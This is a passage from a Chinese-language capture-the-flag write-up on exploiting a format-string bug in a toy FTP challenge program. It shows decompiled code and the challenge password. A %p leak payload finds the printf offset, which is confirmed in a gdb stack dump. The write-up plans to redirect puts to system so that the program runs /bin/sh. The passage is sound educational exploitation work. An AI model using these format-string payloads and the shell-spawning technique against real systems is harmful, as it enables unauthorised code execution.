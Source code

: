			if ( !strcmp(i, &s1) )

			{

				strcpy(&dest, i + 40);

				return printf(&dest);

			}

		}

		return printf(&dest);

	}

查字符什么都没发现·但发现最后的dir显示函数是puts(s)

那思路只有是把dir的puts换成system，在输入/bin/sh，则puts(/bin/sh)实际上就是system(/bin/sh)

输入前面现有个密码的判定，很简单，直接就是sysbdmin每个字符减1就可以了

然后找printf的偏移位置

	Connected to ftp.hacker.server

	220 Serv-U FTP Server v6.4 for WinSock ready...

	Name (ftp.hacker.server:Rainism):rxraclhm

	welcome!

	ftp>put

	please enter the name of the file you want to upload:aaaa

	then, enter the content:aaaa,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p

	ftp>get

	enter the file name you want to get:aaaa

	aaaa,0x9eeb598,0x4,0xf7da7f88,0xfbad2887,0x7d4,0xf7f73200,0x61616161,0x2c70252c,0x252c7025,0x70252c70ftp>

数一下，偏移位置是7。或者是在gdb里面看，断点下在printf

	gdb-peda$ stack 20
	0000| 0xffffd080 --> 0xffffd09c ("%p,%p,%p,%p")
	0004| 0xffffd084 --> 0x804b598 ("%p,%p,%p,%p")
	0008| 0xffffd088 --> 0x4 
	0012| 0xffffd08c --> 0xf7de8f88 --> 0x36a5 
	0016| 0xffffd090 --> 0xfbad2887 
	0020| 0xffffd094 --> 0x7d4 
	0024| 0xffffd098 --> 0xf7fb4200 --> 0x0 
	0028| 0xffffd09c ("%p,%p,%p,%p")
	0032| 0xffffd0a0 ("p,%p,%p")
	0036| 0xffffd0a4 --> 0x70252c (',%p')
	0040| 0xffffd0a8 --> 0xf7e5104b (<_IO_new_file_underflow+11>:	add    edi,0x164fb5)
	0044| 0xffffd0ac --> 0xf7fb49d4 --> 0x0 
	0048| 0xffffd0b0 --> 0xf7fb65c0 --> 0xfbad2288 
	0052| 0xffffd0b4 --> 0x1 
	0056| 0xffffd0b8 --> 0x804b598 ("%p,%p,%p,%p")
	0060| 0xffffd0bc --> 0xf7e501bf (<__GI__IO_file_xsgetn+575>:	add    esp,0x10)
	0064| 0xffffd0c0 --> 0x804b5a3 --> 0x0 
	0068| 0xffffd0c4 --> 0x804b16b --> 0xa ('\n')
	0072| 0xffffd0c8 --> 0x1 
	0076| 0xffffd0cc --> 0xf7ffd940 --> 0x0 
